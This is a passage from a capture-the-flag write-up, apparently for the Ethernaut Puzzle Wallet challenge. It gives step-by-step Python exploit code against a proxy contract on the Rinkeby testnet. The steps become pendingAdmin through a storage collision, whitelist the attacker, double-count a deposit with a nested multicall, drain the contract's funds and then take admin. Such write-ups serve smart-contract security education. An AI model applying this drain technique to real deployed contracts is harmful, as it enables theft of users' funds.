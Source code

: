 ```python
storage_position_impl_address = hex(int(web3.sha3(text='eip1967.proxy.implementation').hex(),16)-1)
implementation_address = f'0x{web3.eth.get_storage_at(puzzleproxy.address, storage_position_impl_address).hex()[-40:]}'
```

2. Get the PuzzleWallet contract instance and assign it to an object in python in order to encode the contract calls that will be passed to the proxy contract through the tx data.

```python
puzzlewallet = PuzzleWallet.at(implementation_address)
```

3. Call `proposeNewAdmin()` to become `pendingAdmin`

```python
puzzleproxy.proposeNewAdmin(acc.address, _from)
```

Block explorer: https://rinkeby.etherscan.io/tx/0xbd43b12ff9139f8e9916c46f7e2df7128c34bf6419130c2992d656d7df7453a1

Every single step after this one will perform a tx that sends tx data to the proxy contract in order to perform the delegate calls to the PuzzleWallet contract.

4. Call the `addToWhitelist()` function in order to whitelist my address

```python
whitelist_address_data = puzzlewallet.addToWhitelist.encode_input(acc.address)
acc.transfer(to=puzzleproxy.address, amount=0, data=whitelist_address_data)
```

Block explorer: https://rinkeby.etherscan.io/tx/0xfbc79616c75d96e8a0d176b88197521a18b688bfc6286f01fb904335300c56c5

5. Create the multicall bundled transaction and call `multicall()` as specified in [solution](#solution-22) step 3.

```python
# multicall tx data
deposit_data = puzzlewallet.deposit.encode_input()
multicall_data = puzzlewallet.multicall.encode_input([deposit_data])
# nest the call
multicall_data = puzzlewallet.multicall.encode_input([deposit_data, multicall_data]) 
acc.transfer(to=puzzleproxy.address, amount=puzzleproxy.balance(), data=multicall_data)
```

Block explorer: https://rinkeby.etherscan.io/tx/0x6e33c31f232cfb459d4bbd13f296a52be0606c680bde05732fd207f06306d205

6. Perform the withdrawal of all contract's funds by calling `execute()`.

```python
execute_data = puzzlewallet.execute.encode_input(acc.address, puzzleproxy.balance(), "")
acc.transfer(to=puzzleproxy.address, amount=0, data=execute_data)
```

Block explorer: https://rinkeby.etherscan.io/tx/0xc856e1a011cc5405e67956a40ea59754342b41002ff860eeeb21b4b4ee949b97

7. Call `setMaxBalance()` in order to become `admin`
